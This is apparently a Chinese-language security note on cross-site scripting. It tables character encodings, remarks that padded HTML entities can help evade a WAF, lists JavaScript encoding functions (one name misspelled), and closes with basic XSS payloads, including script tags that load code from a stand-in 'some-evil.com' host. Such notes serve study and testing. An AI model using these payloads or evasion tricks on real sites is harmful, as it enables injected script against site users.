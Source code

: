 ### 编码

xss编码器：http://evuln.com/tools/xss-encoder/

|编码类型/示例字符	|<|s|
|-|-|-|
| html实体编码(10进制)| `&#60;`|	`&#115;`|
| html实体编码(16进制)| `&#x3C;`|	`&#x73;`|
| javascript编码(8进制)| `\74`	| `\163`|
| javascript编码(16进制)| `\x3c` | `\x73`|
| jsunicode编码 | `\u003c`|	`\u0073`|
| url编码| `%3C`| `%73`|
| base64编码| `PA==`	|`cw==`|

- 实体编码中<分号>是可以去掉的. 如 `&#115;` --> `&#115`
- 实体编码中可添加多个<0>.如 `&#x73;`  --> `&#x000000073;` (绕waf可能会用上)
- javascript编码(8进制) 较上述编码中, 相对简短.

#### JavaScript 编码和解码方法

JavaScript 定义了 6 个全局方法用于 Unicode 字符串的编码和解码，说明如表所示。

|方法|	说明|
|-|-|
|escape()	|使用转义序列替换某些字符来对字符串进行编码|
|unescape()|	对使用 escape() 编码的字符串进行解码|
|encodeURI()|	通过转义某些字符对 URI 进行编码|
|decodeURI()|	对使用 encodeURI() 方法编码的字符串进行解码|
|encodeURIComponent()|	通过某些转义字符对 URI 的组件进行编码|
|deencodeURIComponent()	|对使用 encodeURIComponent() 方法编码的字符串进行解码|


## 基本示例

`<script>alert("请移步");location.href="http://somehost.com"</script>`

`<script src="http://some-evil.com/xss.js"></script>`

`<img src="#" onerror=alert("xss")>`

`<img src="http://some-evil.com/xss.js" >`
